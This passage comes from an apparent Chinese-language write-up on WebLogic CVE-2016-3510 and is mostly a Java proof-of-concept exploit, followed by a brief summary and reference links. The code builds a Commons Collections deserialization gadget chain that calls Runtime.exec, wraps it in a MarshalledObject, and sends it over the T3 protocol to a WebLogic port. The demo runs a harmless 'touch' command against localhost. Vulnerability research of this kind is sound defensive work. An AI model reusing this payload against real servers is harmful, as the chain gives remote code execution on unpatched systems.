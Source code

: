 ```
        Transformer[] transformers = new Transformer[] `{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] `{`String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`),
                new InvokerTransformer("invoke", new Class[] `{`Object.class, Object[].class `}`, new Object[] `{`null, new Object[0] `}`),
                new InvokerTransformer("exec", new Class[] `{`String.class `}`, new Object[] `{`"touch /tmp/D4ck"`}`)
        `}`;
        Transformer transformerChain = new ChainedTransformer(transformers);
        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor&lt;?&gt; constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

        final Map testMap = new HashMap();

        Map evilMap = (Map) Proxy.newProxyInstance(
                testMap.getClass().getClassLoader(),
                testMap.getClass().getInterfaces(),
                secondInvocationHandler
        );
        final Constructor&lt;?&gt; ctor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        final InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class, evilMap);
        return handler;
    `}`
    public static void main(String[] args) throws Exception `{`
        Object obj = new cve_2016_3510().getObject();
        MarshalledObject textMessage = new MarshalledObject(obj);
        byte[] payload2 = Serializables.serialize(textMessage);
        T3ProtocolOperation.send("127.0.0.1", "7001", payload2);
    `}`
`}`
```

[![](https://p2.ssl.qhimg.com/t019dfb5765ab0a5bb9.png)](https://p2.ssl.qhimg.com/t019dfb5765ab0a5bb9.png)



## 0x05 总结

通过分析CVE-2016-3510漏洞，深入理解二次反序列化更深层次的原理。同时提出了一种粗略寻找漏洞点的搜索方法。接下来继续分析Weblogic历史漏洞及其底层原理。



## 参考文章

[https://www.anquanke.com/post/id/226656](https://www.anquanke.com/post/id/226656#h2-2)<br>[https://www.cnblogs.com/afanti/p/10240232.html](https://www.cnblogs.com/afanti/p/10240232.html)
